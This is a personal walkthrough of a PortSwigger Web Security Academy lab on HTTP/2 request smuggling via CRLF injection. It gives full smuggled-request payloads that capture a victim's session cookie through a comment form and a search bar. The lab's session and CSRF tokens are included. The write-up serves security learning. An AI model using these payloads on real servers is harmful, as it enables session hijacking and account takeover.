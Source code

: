 # Practitioner Lab 137: HTTP/2 request smuggling via CRLF injection

---

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the documentation for details on how to use them.

![Untitled](Practitioner%20Lab%20137%20HTTP%202%20request%20smuggling%20via%20%209a500db99d144111b1a2aaf5eddeefae/Untitled.png)

This tells me its a http2 lab

![Untitled](Practitioner%20Lab%20137%20HTTP%202%20request%20smuggling%20via%20%209a500db99d144111b1a2aaf5eddeefae/Untitled%201.png)

The scanner found the type but I still want to test.

![Untitled](Practitioner%20Lab%20137%20HTTP%202%20request%20smuggling%20via%20%209a500db99d144111b1a2aaf5eddeefae/Untitled%202.png)

Using this after multiple tries I was still unable to get a 404 which leads me into confirming that its a TE

![Untitled](Practitioner%20Lab%20137%20HTTP%202%20request%20smuggling%20via%20%209a500db99d144111b1a2aaf5eddeefae/Untitled%203.png)

Even after doing this Its not really redirecting me to a 404 which makes me think that http2 is removing the Transfer-Encoding header.

My main idea now is to bypass the Tansfer encoding with the trick of using 

```
Foo: Bar\r\nTransfer-Encoding: chunked 
```

And then try sending 2 complete requests to see if maybe I can get some other requests from the user. 

If this is not possible then I will attempts to get the user request and put it in a comment or in the search bar.

After attempting this attack it did not work now my next step would be to comment it out or put it on the search bar. 

This lab took me a while, I tried to capture the request on the search and the comment too. 

I was able to finally get it in the comment.

```
Foo: bar/r/nTransfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a0f00b904aa1a968318417d00740043.web-security-academy.net
Cookie: session=TX2zrrRJX8I8tBDBl8OyGdHd5ETU4dnw; _lab_analytics=RvQDtX6bERu0AhSCiknqQ4tbJy5J3HMFgyEzkFkXZmXdFrExJ8Wsp2etAnlFAHjt83vr0x8eYDE7x0s2Nl61LMyadcKl09M6mIpXD6LSPLbDnGB176ZFxrbWXnz5dNArVQHtwL6SnWITPM2SDTGCF5OqaL8l4M7dZkD0TyveN79refHMJxPEOsHWWxJzDvUHAJZKZl1G1ajCWvilEe7IagHP8jB6kRt7nSJGOQJxAZBDpINkpw0JrnhT9HSy9sxp
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://0a0f00b904aa1a968318417d00740043.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0f00b904aa1a968318417d00740043.web-security-academy.net/post?postId=2
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Content-Length: 950

csrf=QPNxYy2ONCk1mN51EUxD6sq4JAzwBwLV&postId=2&name=MESSAGE&email=new%40new&website=http://yes.com&comment=NEW
```

This was the one I used and it gave me this:

![Untitled](Practitioner%20Lab%20137%20HTTP%202%20request%20smuggling%20via%20%209a500db99d144111b1a2aaf5eddeefae/Untitled%204.png)

This gave me the user cookie. 

![Untitled](Practitioner%20Lab%20137%20HTTP%202%20request%20smuggling%20via%20%209a500db99d144111b1a2aaf5eddeefae/Untitled%205.png)

After using the session cookie from the user I had access to their account. 

Here I could have used the search but tit was for some reason not working entirely how I wanted it to so I ended opting out for the comment.

![Untitled](Practitioner%20Lab%20137%20HTTP%202%20request%20smuggling%20via%20%209a500db99d144111b1a2aaf5eddeefae/Untitled%206.png)

![Untitled](Practitioner%20Lab%20137%20HTTP%202%20request%20smuggling%20via%20%209a500db99d144111b1a2aaf5eddeefae/Untitled%207.png)

This is from the search. Showing that it could have also been done.

```
session=IzeoGHbnCImzi4nYaGlCVKLiRNd5Zgtv; 
```

```
0

POST / HTTP/1.1
Host: 0adf00b404118f08811e203000d400ab.web-security-academy.net
Cookie: session=YJKtkQ3IXRi1xyStv5J4xhb6FAlHfrKY; _lab_analytics=wc77r6hVjqu7je9E99FaOC7CFfuiQIgL1knmg4eY3LBi79RWw8Z4mmdr36xjoAm0kiMRO2FjQ9BAG2OqBzLuVGugE3Z0cmhpaAk3ocu82iprST2ZN8hDGmY03Vk3X0Bb5JNx8grYh9RLXYoS5EyTNKqpgHoGcK3Zo3GKZbCgYfMmV0LrcfWx1Uu1MwqH8h5IIkxGxFym7YLs5tSpSUJ5dnbnagHmHv5RMAUgwoFMStlRtFPKQZsIozRweTb793uJ
Content-Type: application/x-www-form-urlencoded
Content-Length: 900

search=x
```

This was part of the payload I used to do this.